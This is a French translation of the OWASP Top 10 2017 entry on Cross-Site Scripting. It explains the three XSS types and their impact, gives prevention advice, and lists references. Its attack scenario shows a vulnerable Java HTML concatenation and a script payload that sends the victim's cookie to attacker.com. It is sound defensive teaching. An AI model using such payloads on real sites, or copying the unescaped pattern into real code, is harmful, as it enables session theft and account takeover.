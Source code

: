 # A7:2017 Cross-Site Scripting (XSS)

| Facteurs de Menace/Vecteurs d'Attaque | Vulnérabilités           | Impacts               |
| -- | -- | -- |
| Accès Lvl : Exploitation 3 | Fréquence 3 : Détection 3 | Techniques 2 : Métier ?  |
| Des outils automatisés permettent de détecter et d'exploiter les trois types de XSS et des frameworks d'exploitation gratuits sont disponibles. | XSS est le deuxième problème le plus fréquent de l'OWASP Top 10 et on le retrouve dans près de 2/3 des applications. Les outils automatisés peuvent trouver automatiquement quelques failles XSS, en particulier dans des technologies matures telles que PHP, JEE / JSP, et ASP.NET. | L'impact de XSS est modéré pour les "XSS basés sur DOM" et les "XSS Réfléchis", et grave pour les "XSS Stockés", avec des exécutions à distance dans le navigateur de la victime, comme du vol de comptes d'accès, de sessions, ou de la distribution de logiciel malveillant à la victime. |

## Suis-je Vulnérable ?

Il y a trois types de XSS, ciblant habituellement les navigateurs des victimes :

- **XSS Réfléchi** : L'application ou l'API copie les entrées utilisateurs, sans validation ni contrôle des caractères spéciaux, comme partie intégrante de la sortie HTML. Une attaque réussie permet à l'attaquant d'exécuter du HTML et/ou du JavaScript arbitraire dans le navigateur de la victime. Typiquement, l'utilisateur devra interagir avec un lien malicieux redirigeant vers une page contrôlée par l'attaquant, comme un site web malicieux de type "point d'eau", publicitaire, ou équivalent.
- **XSS Stocké** : L'application ou l'API stocke des entrées utilisateurs, ni contrôlées ni assainies, qui seront vues ultérieurement par un autre utilisateur ou un administrateur. Ces XSS stockés sont souvent considérés comme un risque élevé, voir critique.
- **XSS basé sur DOM** : Les environnements Javascript, les applications monopage, et les API qui intègrent dynamiquement à la page, des données contrôlables par l'attaquant, sont vulnérables au XSS basé sur DOM. En règle générale, l'application ne doit pas transmettre de données contrôlables par l'attaquant à des API Javascript non sûres.

Les attaques habituelles de type XSS sont le vol de session, la prise de contrôle de compte, le contournement MFA, le remplacement ou le défacement de noeud DOM (comme des fenêtres de connexion-cheval de troie), des attaques du navigateur de l'utilisateur tels que des téléchargements de maliciels, des enregistreurs de frappe et autres attaques du client.

## Comment s'en Prémunir ?

Se protéger des attaques XSS nécessite la séparation des données non sûres du contenu actif du navigateur. 
Pour cela :

- Utiliser des frameworks avec des techniques automatiques d'échappements XSS par conception, comme les dernières versions de Ruby on Rails et React JS. Regarder les limitations de protection XSS de votre framework et prendre les mesures appropriées pour couvrir les cas non gérés.
- Appliquer des techniques d'échappement aux données des requêtes HTTP non sûres, selon le contexte des sorties HTML dans lequel elles seront insérées (body, attribute, Javascript, CSS, ou URL). Cela résoudra les vulnérabilités des XSS Réfléchis ou Stockés. L'[Aide-mémoire de l'OWASP 'Prévention des XSS'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) donne des détails sur les techniques requises d'échappement des données.
- Appliquer un encodage adapté au contexte lors des modifications des documents du navigateur du client est une protection contre les XSS basés sur DOM. Quand cela ne peut pas être évité, des techniques d'échappement, adaptées au contexte, peuvent être appliquées aux API du navigateur comme indiqué dans l'[Aide-mémoire de l'OWASP 'Prévention des XSS basés sur DOM'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Etablir une [Politique de Sécurité du Contenu (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) comme mesure de défense en profondeur limitant les attaques XSS. Cela sera efficace, s'il n'y a pas d'autre vulnérabilité qui permettrait de déposer du code malicieux par insertion de fichier en local (ex : écrasement par attaque de type "traversée de répertoire" ou via des bibliothèques vulnérables des réseaux de diffusion de contenu (CDN) autorisés).

## Exemple de Scénario d'Attaque

**Scénario #1** : L'application utilise des données non sûres dans la construction du fragment de code HTML sans validation ni technique d'échappement :

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

L'attaquant remplace le paramètre ‘CC’ du navigateur par :
`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Cette attaque envoie l'ID de session de la victime vers le site web de l'attaquant, lui permettant ainsi de détourner la session active de l'utilisateur.

**Note** : Les attaquants peuvent utiliser XSS pour invalider les défenses automatisées anti-falsification de requête intersite (CSRF) que l'application peut avoir mises en place.

## Références

### OWASP

- [OWASP Contrôles Proactifs : Encoder les Données](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Contrôles Proactifs : Valider les Données](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Standard de Vérification de la Sécurité des Applications : V5](https://owasp.org/www-project-application-security-verification-standard/)
- [OWASP Guide de Test : Test des XSS Réfléchis](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
- [OWASP Guide de Test : Test des XSS Stockés](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
- [OWASP Guide de Test : Test des XSS basés sur DOM](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
- [OWASP Aide-Mémoire : Prévention du XSS ](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Aide-Mémoire : Prévention du XSS basé sur DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Aide-Mémoire : Contournements de Filtres XSS ](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [OWASP Projet Java Encodeur](https://owasp.org/www-project-java-encoder/)

### Externes

- [CWE-79 : Neutralisation incorrecte des entrées utilisateurs](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger : Modèle d'injection côté Client](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
